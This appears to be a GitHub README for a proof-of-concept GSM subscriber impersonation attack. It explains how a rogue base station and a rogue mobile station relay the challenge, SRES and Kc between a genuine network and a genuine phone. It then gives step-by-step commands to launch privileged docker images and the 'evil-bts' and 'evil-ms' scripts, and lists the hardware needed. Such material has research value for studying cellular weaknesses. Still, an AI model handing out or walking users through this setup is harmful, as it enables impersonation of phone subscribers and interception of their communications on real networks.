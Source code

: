 I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :

- The BTS send a rand,key_sequence to the MS.
- The MS respond SRes = f(ki,rand)
- The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :
- The genuine BTS send a rand,key_seq to the Evil MS.
- The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
- The Evil BTS send the rand,key_seq to genuine MS
- The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
- In the example video Kc is forwarded between Genuine MS-> Evil MS

[Impersonnate PoC](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry...

[Impersonalisaion (français)](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;)
[Impersonate (english)](https://www.youtube.com/watch?v=rSGA4oFsFrQ)

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

```bash
apt remove brltty
```
on host (not on docker !)
Launch 1st
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```
Launch 2nd
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts
```bash
tmux
cd /
service pcscd start
./evil-bts.sh
```
`
then in ms :
```bash
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```
set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader
